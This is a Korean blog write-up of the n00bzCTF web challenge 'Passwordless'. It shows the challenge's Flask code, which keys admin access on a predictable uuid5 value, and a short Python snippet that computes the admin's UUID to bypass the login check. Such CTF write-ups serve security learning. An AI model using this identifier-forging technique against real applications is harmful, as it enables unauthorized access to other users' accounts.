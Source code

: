 ```yaml
---
title: "[n00bzCTF] Passwordless"
tags:
    - CTF
    - Web
    - n00bzCTF
date: "2024-08-12"
thumbnail: "/assets/Security/CTF/Web/240812_Passwordless/thumbnail.png"
---
```


# Intro
---
이 포스트에서는 n00bzCTF에서 주최한 CTF의 Web 문제에 대하여 살펴볼 예정이다.
> Tired of storing passwords? No worries! This super secure website is passwordless! Author: NoobMaster

# Analysis
---
해당 사이트는 `passwordless Username`을 통해서 로그인을 수행한다.
![site](/assets/Security/CTF/Web/240812_Passwordless/01_analysis_1.png){: style="border: 1px solid;"}

Username 별로 고유의 UUID가 존재하고, `/UUID` 페이지에 접근 시 사용자에 해당하는 페이지를 렌더링한다.
만약 Username 자체를 `admin123`으로 입력하여 요청한 것이 아닌, 접근한 페이지에 해당하는 UUID가 `admin123의 UUID`라면 FLAG를 출력하는 구조이다.

```Python
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')
@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag
```

### uuid.uuid5
Python Docs에서 `uuid.uuid5(namespace, name)`에 대한 공식 정의는 다음과 같고, 간단하게 말하자면 `namespace(UUID)`와 `name`을 기반으로 고유한 UUID를 생성하는 uuid 모듈 내 함수이다.<br>
> Generate a UUID based on the SHA-1 hash of a namespace identifier (which is a UUID) and a name (which is a bytes object or a string that will be encoded using UTF-8).

# Exploit
---
해당 페이지는 admin123에 해당하는 UUID를 알 수 있다면, 직접적으로 `/{admin123의 UUID}` 페이지에 접근하여 FLAG 확인이 가능하다.

`uuid.uuid5(namespace, name)`의 namespace는 leet 변수로 고정되어 있으므로 name을 admin123으로 설정하여 admin123 계정의 UUID를 획득하자.

```Python
from flask import Flask
import uuid

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
print(str(uuid.uuid5(leet, 'admin123'))) # 3c68e6cc-.....
```

이제 획득한 admin123 계정의 UUID 페이지로 접근하면 FLAG를 획득할 수 있다.
![flag](/assets/Security/CTF/Web/240812_Passwordless/02_exploit_1.png){: style="border: 1px solid;"}
